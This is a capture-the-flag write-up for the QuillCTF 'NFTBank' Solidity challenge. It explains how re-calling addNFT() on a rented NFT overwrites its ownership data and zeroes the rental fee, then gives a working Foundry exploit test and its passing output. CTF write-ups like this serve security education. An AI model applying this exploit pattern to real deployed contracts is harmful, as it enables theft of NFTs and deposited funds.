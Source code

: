 # QuillCTF : NFTBank

## Descritpion
```
Users can rent NFTs from the NFTBank. They have to pay a fixed commission when they want to get rent, and when they want to return NFT,
the contract will take a second fee, depending on how many days you have NFT from.
```

## Objective of CTF
```
You rent an NFT.
After 10 days have passed, if you should hack the contract, and finally have the NFT, the contract should not show, that you have debt.
```

The nftOwner minted 10 nfts, and added each of them to the bank with 2 gwei rentFeePerDay and 500 gwei startRentFee

500 gwei startRentFee is like a deposit we have to make in order to rent the nft, and when we return the nft, we have to pay rentFeePerDay depending on how many days we have rented the nft then we can have the 500 gwei refunded

The bug is in that even we rented the nft, we can still use addNFT() to add the rented nft to the bank and overwrite the nftData in the nfts mapping, so we can become the owner and change rentFeePerDay and startRentFee of that nft

We can just change rentFeePerDay to 0 so we don't have to pay any fee when we are returning the nft to have the 500 gwei startRentFee refunded, we also will set the startRentFee to 500 gwei, so we can still get 500 gwei refunded when we return the nft, if the bank has more than 500 gwei, we can also set it to more than 500 gwei to steal fund

As we have overwritten the nftData in nfts mapping, we are the owner and we can call getBackNft() to get the nft bank from the bank, and calling getBackNft() won't remove us from being the owner in the nftData

So after we get back the nft, we can just call refund() to get the 500 gwei back and it will take our nft, but we are still the owner, so just call getBackNft() again and we can get the nft back

## Proof of concept

### Foundry test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

import "forge-std/Test.sol";
import {NFTBank} from "../src/NFTBank.sol";
import {ERC721} from "openzeppelin-contracts/token/ERC721/ERC721.sol";
import {Ownable} from "openzeppelin-contracts/access/Ownable.sol";

contract CryptoKitties is ERC721("CryptoKitties", "MEOW"), Ownable {
    function mint(address to, uint id) external onlyOwner {
        _safeMint(to, id);
    }
}

contract NFTBankHack is Test {
    NFTBank bank;
    CryptoKitties meow;
    address nftOwner = makeAddr("nftOwner");
    address attacker = makeAddr("attacker");

    function setUp() public {
        vm.startPrank(nftOwner);
        bank = new NFTBank();
        meow = new CryptoKitties();
        for (uint i; i < 10; i++) {
            meow.mint(nftOwner, i);
            meow.approve(address(bank), i);
            bank.addNFT(address(meow), i, 2 gwei, 500 gwei);
        }
        vm.stopPrank();
    }

    function test() public {
        vm.deal(attacker, 1 ether);
        vm.startPrank(attacker);
        bank.rent{value: 500 gwei}(address(meow), 1);
        vm.warp(block.timestamp + 86400 * 10);
        //solution       
        meow.approve(address(bank), 1);
        // over nftData of id 1 to become owner, and set rentFeePerDay to 0, but startRentFee remains 500 gwei 
        // (if the bank has more than 500 gwei, we can set startRentFee > 500 gwei to steal fund)
        bank.addNFT(address(meow), 1, 0, 500 gwei);
        // get the nft back overwritten nftData remains
        bank.getBackNft(address(meow), 1, payable(attacker));
        // refund to get back 500 gwei startRentFee, without paying rentFeePerDay, as it's overwritten to 0
        meow.approve(address(bank), 1);
        bank.refund(address(meow), 1);
        // get the nft back as we are still the owner in the nftData
        bank.getBackNft(address(meow), 1, payable(attacker));
        
        vm.stopPrank();
        assertEq(attacker.balance, 1 ether);
        assertEq(meow.ownerOf(1), attacker);
    }
}
```

### Foundry test output

```
# forge test --match-path test/NFTBank.t.sol -vv
[⠘] Compiling...
No files changed, compilation skipped

Running 1 test for test/NFTBank.t.sol:NFTBankHack
[PASS] test() (gas: 251552)
Test result: ok. 1 passed; 0 failed; finished in 4.13ms
```

